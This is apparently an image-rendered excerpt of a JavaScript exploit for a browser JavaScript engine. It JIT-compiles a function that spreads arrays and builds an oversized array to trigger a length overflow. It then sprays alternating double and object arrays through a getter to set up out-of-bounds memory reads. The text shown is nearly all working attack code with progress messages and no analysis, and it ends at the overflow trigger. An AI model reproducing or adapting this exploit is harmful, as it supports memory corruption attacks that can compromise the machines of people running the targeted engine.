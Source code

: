 ```
function jitMe(array, reInitAllocator){                                                                                            
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)
```

